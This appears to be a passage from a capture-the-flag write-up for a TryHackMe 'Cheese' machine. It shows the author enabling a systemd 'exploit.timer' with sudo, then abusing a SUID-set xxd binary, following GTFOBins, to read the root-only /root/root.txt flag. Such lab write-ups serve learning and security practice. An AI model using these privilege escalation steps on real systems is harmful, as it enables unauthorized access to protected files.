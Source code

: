 Enable this timer file and start the timer as sudo :
```console
comte@cheesectf:/etc/systemd/system$ sudo /bin/systemctl enable exploit.timer
comte@cheesectf:/etc/systemd/system$ sudo /bin/systemctl start exploit.timer
```

Let's look at the `/opt` folder:

```console
comte@cheesectf:/opt$ ls -lah
total 28K
drwxr-xr-x  2 root root 4.0K Sep 24 21:30 .
drwxr-xr-x 19 root root 4.0K Sep 27  2023 ..
-rwsr-sr-x  1 root root  19K Sep 24 22:33 xxd
```

We can refer to gtfobin to know how to read file when SUID bit is set to the `xxd` binary.

```console
comte@cheesectf:/opt$ LFILE=/root/root.txt
comte@cheesectf:/opt$ ./xxd "$LFILE" | xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{REDACTED}
```
